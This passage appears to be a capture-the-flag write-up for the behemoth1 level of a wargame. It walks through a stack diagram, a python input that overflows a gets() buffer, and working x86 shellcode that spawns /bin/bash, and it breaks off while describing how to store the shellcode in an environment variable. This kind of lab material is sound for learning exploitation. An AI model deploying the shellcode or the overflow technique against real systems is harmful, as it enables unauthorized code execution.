 let us take a lool at the stack:

\-----------------------------

| return add 4 bytes | 

\---------------------------- 

| old esp 4 bytes	|       push   %ebp  

----------------------       mov    %esp,%ebp 

|                    			| 

|                  		  	|       0x43 

|               	  	   	| 

|     input     	     	| 

----------------------       sub    $0x44,%esp 

| call gets     	  	| 

\---------------------- 

So what is the size of the overwrite area??  

**try stack overflow** 

```shell
behemoth1@behemoth:/behemoth$ python -c "print 'A'*71" | ./behemoth1 
Password: Authentication failure. 
Sorry. 
Segmentation fault 
```

**find shellcode** 

 No we know that it must have some stack overflow, so we can find some shellcode to inject in somewhere of the system. And find the address of my shellcode just input into the return region of behemoth1 process. 

 ```shell
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80 
 ```

From: http://shell-storm.org/shellcode/files/shellcode-606.php  

**insert our shellcode** 

 There are many ways to insert our shellcode into the system, just make sure the place you insert can be executed. Maybe the Environment, or just in the 0x43 regions. 

 

So I just export the shellcode as an environment named CODE: 
